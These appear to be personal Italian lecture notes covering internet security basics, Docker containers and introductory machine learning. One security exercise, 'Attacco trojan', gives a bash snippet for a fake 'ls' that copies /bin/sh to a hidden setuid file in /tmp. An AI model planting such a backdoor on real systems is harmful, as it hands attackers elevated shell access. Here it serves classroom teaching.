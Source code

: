 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
![[Recording 20220314131117.webm]]

Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# TAP
## Argomenti
- [[#Docker]]

## Docker
!def Container
Un _container_ è un oggetto contenente la _configurazione_ e tutte le _dipendenze_ necessarie ad un *processo*

La containerizzazione dei processi fornisce isolamento, riutilizzo cross platform, ...

!def Docker vs Virtualizzazione
(Sono totalmente diversi... l'unica cosa che noto in comune è una questione di setup/configuration ed isolamento)
In comune hanno una preparazione del campo per eseguire qualcosa (dipendenze e configurazione)

# Machine Learning

generalmente il machine learning si suddivide in descriminativi e generativi

```ad-def 
title:Discriminativi
Trovare un bound di decisione che deve essere appreso
trovare una probabilità a posteriori $P(y|x)$

Gli algoritmi Deep learning fanno capo a questa categoria
```
```ad-def
title:Generativi
Apprendere la probabilità congiunta $P(y,x) = P(y|x)P(x) = P(x|y)P(y)$ 
```

!def Perceptron
Ideato nel 1958 da [...]; è basato sul design dei neuroni.

- $\text{peso }\delta_j \forall \text{ componente }$